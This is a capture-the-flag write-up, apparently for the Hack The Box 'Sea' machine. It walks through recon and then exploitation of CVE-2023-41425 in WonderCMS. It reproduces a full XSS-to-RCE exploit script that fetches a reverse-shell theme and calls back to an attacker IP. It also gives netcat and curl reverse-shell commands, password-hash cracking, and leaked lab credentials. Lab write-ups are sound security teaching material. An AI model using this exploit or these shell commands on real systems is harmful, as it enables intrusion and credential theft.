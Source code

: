 # Sea Write-up

<img src="https://labs.hackthebox.com/storage/avatars/0011f6725aed869f8683589cb08c90d0.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV 10.10.11.28`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41
    |_http-title: Sea - Home
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `sea.htb` to `/etc/hosts`

    echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts 

![image](https://github.com/user-attachments/assets/f9dac408-58f9-4866-8962-edfa1ce692e9)

### Directory enumeration with Dirsearch

`python3 dirsearch.py -e php,html,js -u http://sea.htb 404,403,401,307`
                                      
    200 -    3KB - /404                                                                                   
    200 -    3KB - /contact.php                                      
    301 -  228B  - /data  ->  http://sea.htb/data/                                                       
    301 -  232B  - /messages  ->  http://sea.htb/messages/                                     
    301 -  231B  - /plugins  ->  http://sea.htb/plugins/             
    301 -  230B  - /themes  ->  http://sea.htb/themes/                   

![image](https://github.com/user-attachments/assets/fc57769e-68e8-428d-a7be-641db54399e1)

And so we found the directory `/themes/` where we don't have access. Let's try to find directories in this section as well

With using `directory-list-2.3-medium.txt` wordlist.

`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    4KB - /themes/home                                      
    200 -    3KB - /themes/404                                       
    301 -  235B  - /themes/bike  ->  http://sea.htb/themes/bike/

![image](https://github.com/user-attachments/assets/f354c8b8-084e-4394-87b7-a8e128c3c87a)

Try again for `/themes/bike/` directory
   
`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes/bike/ 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    6B  - /themes/bike/version                              
    301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
    200 -    4KB - /themes/bike/home
    301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
    200 -   66B  - /themes/bike/summary                              
    200 -    3KB - /themes/bike/404                                  
    200 -    1KB - /themes/bike/LICENSE    

Let's check `sea.htb/themes/bike/LICENSE` and `sea.htb/themes/bike/summary`

![image](https://github.com/user-attachments/assets/7f3da3a7-1a99-4407-afbc-d589a8d3f5d2)

![image](https://github.com/user-attachments/assets/850e7ee9-d03c-46a2-bf53-07aa681a5a62)

## Exploitation

### CVE-2023-41425

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

Exploit: Wondercms 4.3.2 XSS to RCE

    import sys
    import requests
    import os
    import bs4
    
    if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
    else:
      data = '''
    var url = "'''+str(sys.argv[1])+'''";
    if (url.endsWith("/")) {
     url = url.slice(0, -1);
    }
    var urlWithoutLog = url.split("/").slice(0, -1).join("/");
    var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
    var token = document.querySelectorAll('[name="token"]')[0].value;
    var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
    var xhr3 = new XMLHttpRequest();
    xhr3.withCredentials = true;
    xhr3.open("GET", urlRev);
    xhr3.send();
    xhr3.onload = function() {
     if (xhr3.status == 200) {
       var xhr4 = new XMLHttpRequest();
       xhr4.withCredentials = true;
       xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
       xhr4.send();
       xhr4.onload = function() {
         if (xhr4.status == 200) {
           var ip = "'''+str(sys.argv[2])+'''";
           var port = "'''+str(sys.argv[3])+'''";
           var xhr5 = new XMLHttpRequest();
           xhr5.withCredentials = true;
           xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
           xhr5.send();
           
         }
       };
     }
    };
    '''
      try:
        open("xss.js","w").write(data)
        print("[+] xss.js is created")
        print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
        print("----------------------------\n")
        XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
        XSSlink = XSSlink.strip(" ")
        print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
        print("----------------------------\n")
    
        print("\nstarting HTTP server to allow the access to xss.js")
        os.system("python3 -m http.server\n")
      except: print(data,"\n","//write this to a file")

Clone from github

    git clone https://github.com/prodigiousMind/CVE-2023-41425

Run the exploit and get the shell

    python3 exploit.py http://sea.htb/themes/ 10.10.14.11 4444

    rlwrap nc -nlvp 4444

    curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.11&lport=4444'

![image](https://github.com/user-attachments/assets/19b772ec-4df9-4e14-ae4e-f2ee2b26564b)

![image](https://github.com/user-attachments/assets/e5e9ae5a-d9f1-4f91-baa0-82e10279429f)

![image](https://github.com/user-attachments/assets/4d290636-9b9a-4eae-999b-638138e681ab)

    cd /var/www/sea/data
    
    сat database.js | grep password

![image](https://github.com/user-attachments/assets/817e4a2e-3405-4329-9099-342adc7a4747)

hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

    echo -n '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt

    hashcat -m 3200 -a 0 hash.txt /home/kali/wordlist/rockyou.txt 

![image](https://github.com/user-attachments/assets/d5277a85-d87f-43cc-a22a-08d6c405a9c9)

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`:`mychemicalromance`

### SSH

Connet to SSH with `amay`:`mychemicalromance` credentials

ssh amay@sea.htb

## Get the user flag!

![image](https://github.com/user-attachments/assets/0c9d2c75-78ba-42e1-a255-de032d0c9076)

## Privilege Escalation

netstat

![image](https://github.com/user-attachments/assets/ecc3a342-afa2-45df-96fc-c9c74e062c18)

ssh -L 8888:localhost:8080 amay@sea.htb

![image](https://github.com/user-attachments/assets/2c1944aa-5ab1-4b39-bf32-347224052a5c)

![image](https://github.com/user-attachments/assets/a28c03fd-c6de-4f11-ad04-c10e51f3dc4c)

Use amay's credentials `amay`:`mychemicalromance`

![image](https://github.com/user-attachments/assets/34de5860-9986-4873-a5f8-e0cdd1108884)


